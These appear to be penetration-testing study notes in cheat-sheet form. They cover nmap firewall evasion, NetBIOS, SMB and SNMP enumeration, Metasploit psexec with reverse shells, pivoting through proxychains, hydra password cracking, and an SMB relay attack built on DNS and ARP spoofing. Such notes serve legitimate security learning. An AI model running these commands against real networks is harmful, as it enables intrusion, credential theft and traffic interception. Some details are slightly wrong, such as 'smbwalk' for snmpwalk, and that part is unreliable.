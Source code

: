 # Network

## Firewall and IDS

**Detect and evasion:**
- `-sA` (scan ACK ping) can be use to detect firewall, the result show `filtered` or `unfiltered`
- `-f` fragment packet. `--mtu` (minimum transfer unit size) custom packet size (`-f --mtu 32` packet with 32 bytes of data)
- `-D` decoy `-D 10.10.21.1,10.10.21.2`
- `g` Change source port `-g 53`
- `--data-length 200`
- `-n` disable DNS resolution
- `--ttl` set time to live time

## SMB and NetBIOS Enum

Both is file sharing service but different technology
- NetBIOS is an API and set of network protocols, provide communication service between device on local network. NetBIOS include:
  - Name services (NetBIOS-NS) ~ 137
  - Datagram services (NetBIOS-DGM) ~ 138
  - Sessions service (NetBIOS-SSN) ~ 139

Tools:
- `nbtscan <target>` Scan network for NetBIOS name
- `nmblookup -A <target>`
- `nmap -sU -p 137 <target>` Check for Name Service of NetBIOS is running (it UDP)
  - `nmap -sU -sV -p 137 <target> --script nb_stat.nse -n` We can try this script to get the service name

**For Smb** 
- `nmap -p445 --script smb-protocols <target>` Check for protocols that target supported 
- `nmap -p445 --script smb-security-mode <target>` Security level that SMB config
- `nmap -p445 --script smb-enum-users.nse <target>` Enum user
- Use `hydra` to crack password
- Or we use `windows/smb/psexec` for connection, set payload to reverse_tcp
- After exploit and have meterpreter, we can `run autoroute -s <target_2_subnet>` to gain access to target 2 that only be connect via target 1
  - Or we can setup `proxychains` and module `socks` of `msf` to access the target from host machine 
  - Proxychanins usually run on port `9050`, see config in `/etc/proxychains4.conf`
  - After that we use `use auxiliary/server/socks_proxy`, `set SRVPORT 9050` `set VERSION 4a ` -> run
  - Now we can access the target 2 from host command with `proxychains nmap <target2> -sT -Pn -sV -p 445`
- shell `net view <target>` view share of target
- `net use D: \\<target>\<share>` Assign disk to share -> `dir D:`

## SNMP

Protocols Use for monitor and manage network devices, like routers, switch, printer, fax, ...
- Application protocols
- Have 3 part:
  - SNMP manager
  - SNMP agent
  - Management infomation base (MIB): Datatbase that define structure of data available through SNMP, each piece of data have unique ID call `OID`
- Port: 161 for SNMP query, 162 for SNMP trap (Infor agent send to Manager)

**Exploit**
- `nmap -sU -p 161 <target>` -> `nmap -sU -p161 --script=snmp-* <target>` collect infor from script 
- Brute for communication string `nmap -sU -p 161 --script=snmp-brute <target>`
  - `snmp-win32-users` enum user on system -> use for hydra later
  - `snmp-processes` enum process run on system
    - `snmp-win32-services` enum services run on system
  - `snmp-interface` enum network interface of system
    - `snmp-netstat` enum net stat
  - `snmp-softwares` enum software install on system
- For more info, use `smbwalk -v 1 -c public <target>`, `-v` is version, `-c` is channel that we detected with `snmp-brute`

## SMB relay

Is a type of attack where attacker intercept SMB traffic, change it and relays it to a legitimate server to gain access. Steps of attack:
- Interception
- Capture authentication
- Relay to a legitimate server
- Gain Access

How to exploit:
- Open `msfconsole` -> search `smb_relay` use reverse_tcp payload 
  - `set srvhost <host_ip>` `set lhost <host_ip>`
  - `set smbhost <target_ip>`
- Setup dns spoofing by `echo "<host_ip> *.<target_domain>" > dns` Ex: `echo "10.10.1.1 *.example.com" > dns`
  - Run `dnsspoof -i eth1 -f dns` `-i` network interface, `-f` file
- Run `arpspoof -i eth1 -t <victim_ip> <smb_server>` and `echo 1 > /proc/sys/net/ipv4/ip_forward` for perform an ARP poisoning attack to intercept and manipulate traffic between a victim and a target system.
